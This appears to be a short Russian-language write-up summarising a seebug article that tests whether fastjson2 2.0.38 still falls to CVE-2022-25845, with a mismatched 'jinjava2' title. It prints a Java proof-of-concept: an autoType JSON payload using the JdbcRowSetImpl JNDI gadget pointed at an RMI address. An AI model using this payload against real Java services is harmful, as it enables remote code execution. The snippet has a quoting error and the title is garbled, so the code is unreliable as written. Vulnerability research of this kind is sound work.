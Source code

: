 # CVE-2022-25845 (jinjava2 exnted) (Маджуга Богдан Андреевич)

## Описание:

В статье https://paper.seebug.org/3017/ автор рассматривает библиотеку fastjson2 на наличие уязвимсотей ее предшественника fastjson. В качестве уязвимоста автор выбрал CVE-2022-25845, которая работала на fastjson версии 1.2.25-1.2.41. В качестве таргета автор рассматривает fastjson2 версии 2.0.38.


Первоначально автор пробует запустить уязвимый код напрямую из старой версии:

```
public static void main(String[] args) {
    String poc = "{\"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\",\"DataSourceName":\"rmi://127.0.0.1:8085/xxx\",\"AutoCommit\":\"false\"}";
    Object obj = JSON.parse(poc, JSONReader.Feature.UseNativeObject,
    JSONReader.Feature.SupportAutoType);
    System.out.println(obj);
}
```
